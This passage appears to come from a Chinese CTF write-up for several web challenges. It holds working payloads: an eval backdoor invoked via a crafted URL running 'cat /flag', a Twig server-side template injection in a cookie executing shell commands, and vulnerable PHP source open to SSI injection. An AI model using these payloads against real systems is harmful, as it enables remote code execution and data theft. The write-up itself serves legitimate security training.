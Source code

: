 ```php
}

function getFlag(){
	@eval($_GET['cmd']);
}

```

```
http://e121170e-2c2b-419c-909f-05b530db4272.node3.buuoj.cn/?&\D*=${getFlag()}&file=next.php&text=data://,I%20have%20a%20dream&cmd=system(%27cat%20/flag%27);
```

## Cookie is so stable

根据提示发现

```
Cookie: PHPSESSID=30c6cb67d4e030c673ad2fa83c35cbc7; user=admin
```

fuzz过程中猜测是ssti

![image4749](https://portswigger.net/cms/images/migration/blog/screen-shot-2015-07-20-at-09-21-56.png)

检测出是twig

```
Cookie: PHPSESSID=30c6cb67d4e030c673ad2fa83c35cbc7; user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```



## EasySearch

在index.php.swp中找到源码

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
```